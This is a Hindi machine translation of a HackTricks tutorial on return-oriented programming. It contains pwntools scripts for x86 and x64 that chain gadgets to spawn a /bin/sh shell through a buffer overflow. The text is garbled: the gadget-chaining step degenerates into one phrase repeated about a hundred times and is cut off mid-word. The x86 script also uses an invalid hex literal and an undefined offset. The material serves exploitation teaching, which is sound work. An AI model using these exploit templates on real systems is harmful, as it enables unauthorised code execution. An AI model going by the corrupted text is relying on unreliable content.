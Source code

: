 # ROP - रिटर्न ओरिएंटेड प्रोग्रामिंग

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## **मूल जानकारी**

**रिटर्न-ओरिएंटेड प्रोग्रामिंग (ROP)** एक उन्नत शोषण तकनीक है जिसका उपयोग **No-Execute (NX)** या **Data Execution Prevention (DEP)** जैसी सुरक्षा उपायों को दाखिल करने के लिए किया जाता है। शेलकोड डालने और निष्पादित करने की बजाय, एक हमलावर बाइनरी या लोडेड लाइब्रेरी में मौजूद कोड के टुकड़ों का उपयोग करता है, जिन्हें **"गैजेट्स"** कहा जाता है। प्रत्येक गैजेट सामान्यत: `ret` निर्देशिका के साथ समाप्त होता है और एक छोटे से कार्य को करता है, जैसे डेटा को रजिस्टर के बीच ले जाना या अंकगणितीय कार्यों को करना। इन गैजेट्स को एक साथ जोड़कर, एक हमलावर एक पेलोड बना सकता है जिससे वे एकाधिक कार्रवाई कर सकते हैं, NX/DEP सुरक्षा को असफल करते हुए।

### ROP कैसे काम करता है

1. **नियंत्रण प्रवाह हाइजैकिंग**: पहले, एक हमलावर को किसी प्रोग्राम के नियंत्रण प्रवाह को हाइजैक करने की आवश्यकता होती है, सामान्यत: एक बफर ओवरफ्लो का शोषण करके स्टैक पर सहेजी गई वापसी पता को अधिक करने के लिए।
2. **गैजेट चेनिंग**: फिर हमलावर ध्यानपूर्वक गैजेट्स का चयन करता है और चेनिंग करता है ताकि वह वांछित कार्रवाई कर सके। इसमें किसी फ़ंक्शन के लिए तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadcode

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## ROP Chain का x64 उदाहरण

### **x64 (64-बिट) कॉलिंग कनवेंशन**

* यूनिक्स-जैसे सिस्टम्स पर **System V AMD64 ABI** कॉलिंग कनवेंशन का उपयोग करता है, जहां **पहले छह पूर्णांक या पॉइंटर आर्ग्यूमेंट को रजिस्टर `RDI`, `RSI`, `RDX`, `RCX`, `R8`, और `R9` में पारित किया जाता है**। अतिरिक्त आर्ग्यूमेंट स्टैक पर पारित किए जाते हैं। रिटर्न मान `RAX` में रखा जाता है।
* **Windows x64** कॉलिंग कनवेंशन में पहले चार पूर्णांक या पॉइंटर आर्ग्यूमेंट के लिए `RCX`, `RDX`, `R8`, और `R9` का उपयोग किया जाता है, अतिरिक्त आर्ग्यूमेंट स्टैक पर पारित किए जाते हैं। रिटर्न मान `RAX` में रखा जाता है।
* **रजिस्टर**: 64-बिट रजिस्टर में `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, और `R8` से `R15` शामिल हैं।

#### **गैजेट्स खोजना**

हमारे उद्देश्य के लिए, चलो हमें उन गैजेट्स पर ध्यान केंद्रित करने दें जो हमें **RDI** रजिस्टर सेट करने की अनुमति देंगे (**system()** को आर्ग्यूमेंट के रूप में **"/bin/sh"** स्ट्रिंग पास करने के लिए) और फिर **system()** फ़ंक्शन को कॉल करेंगे। हम मान लेंगे कि हमने निम्नलिखित गैजेट्स की पहचान कर ली है:

* **pop rdi; ret**: स्टैक के शीर्ष मान को **RDI** में पॉप करता है और फिर वापस लौटता है। **system()** के लिए हमारे आर्ग्यूमेंट सेट करने के लिए आवश्यक है।
* **ret**: कुछ स्थितियों में स्टैक संरेखण के लिए उपयोगी एक सरल रिटर्न।

और हम **system()** फ़ंक्शन का पता जानते हैं।

### **ROP Chain**

नीचे एक उदाहरण है **pwntools** का उपयोग करके एक ROP चेन सेट अप और निष्पादन करने के लिए, जिसका उद्देश्य **x64** पर **system('/bin/sh')** को निष्पादित करना है:
```python
pythonCopy codefrom pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
### स्टैक एलाइनमेंट

**x86-64 ABI** सुनिश्चित करता है कि जब एक **कॉल इंस्ट्रक्शन** को निष्पादित किया जाता है, तो **स्टैक 16-बाइट एलाइन्ड** होता है। **LIBC**, प्रदर्शन को अनुकूलित करने के लिए, **SSE इंस्ट्रक्शन** (जैसे **movaps**) का उपयोग करता है जो इस एलाइनमेंट की आवश्यकता होती है। यदि स्टैक सही ढंग से एलाइन नहीं है (अर्थात **RSP** 16 का एक गुणक नहीं है), तो **ROP चेन** में **system** जैसी फ़ंक्शन के कॉल में विफलता होगी। इसे ठीक करने के लिए, आपके ROP चेन में **system** को कॉल करने से पहले एक **ret गैजेट** जोड़ें।

## x86 बनाम x64 मुख्य अंतर

{% hint style="success" %}
क्योंकि x64 पहले कुछ तर्क के लिए रजिस्टर का उपयोग करता है, इसमें आम फ़ंक्शन कॉल के लिए x86 की तुलना में कम गैजेट की आवश्यकता होती है, लेकिन सही गैजेट का पता लगाना और जोड़ना अधिक जटिल हो सकता है क्योंकि रजिस्टरों की बढ़ती संख्या और बड़े पते की अधिक स्थान। **x64** आर्किटेक्चर में बढ़ी हुई रजिस्टरों की संख्या और बड़े पते का अंतर्निहित विकास के संदर्भ में, विशेष रूप से Return-Oriented Programming (ROP) के संदर्भ में, उपयोग विकास के लिए अवसर और चुनौतियाँ प्रदान करते हैं।
{% endhint %}

